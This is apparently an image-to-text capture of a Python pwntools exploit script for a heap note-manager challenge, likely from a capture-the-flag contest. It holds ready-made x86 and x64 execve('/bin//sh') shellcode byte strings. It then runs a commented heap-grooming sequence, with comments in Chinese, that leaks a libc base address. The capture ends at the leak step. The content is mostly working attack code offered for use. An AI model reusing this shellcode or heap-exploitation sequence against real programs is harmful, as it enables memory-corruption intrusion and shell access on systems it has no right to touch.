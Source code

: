 ```python
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda name,data          :p.success(name + "-> 0x%x" % data)

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def choice(idx):
    sla("option: ",str(idx))

def add(sz,con,sz1,note):
    choice(1)
    sla("name size: ",sz)
    sla("name: ",con)
    sla("note size: ",sz1)
    sla("note content: ",note)  
# def add1(sz,con,sz1,note):
#     choice(1)
#     sleep(0.1)
#     sl(sz)
#     sleep(0.1)
#     sl(con)
#     sleep(0.1)
#     sl(sz1)
#     sleep(0.1)
#     sl(note)    
#     sleep(0.1)
def delete(sz,con):
    choice(3)
    sla("name size: ",sz)
    sla("name: ",con)

def show(sz,con):
    choice(2)
    sla("name size: ",sz)
    sla("name: ",con)

def forge():
    choice(4)

# leak libc_base/堆块基地址
# 填满 0x30(tips:mem指向堆块头部)
add(0x28,'0'*1,0x28,'0'*0x27)
add(0x28,'1'*1,0x28,'1'*0x27)
add(0x28,'2'*1,0x28,'2'*0x27)
add(0x1540,'x',0x1540,'h'*0x27)# 0x1540*2 这个大小可任选
# 调整位置，为了让某个crl1堆块在crl2.content上，让我们泄露(主要操作0x30)
delete(0x60,'0')
add(0x80,'0'*1,0x28,'0'*8)
delete(0x60,'0')
delete(0x60,'x')# 3号位置现在是可申请的
add(0x1540,'3',0x1f,'3'*0x1e)# 申请0x1f也是给0x30的堆块
add(0x1540,'4',0x80,'4'*0x1e)# 4 crl in 2place at now
delete(0x60,4)
add(0x80,'5'*1,0x28,'5'*0x27)# 5 crl in lastplace
delete(0x60,'5')
add(0x1540,'6'+'\x00'*0xf+'99',0x1540,'6'*8)# mmap开辟堆块其地址能让我们获得libc偏移
show(0x60,'5')
```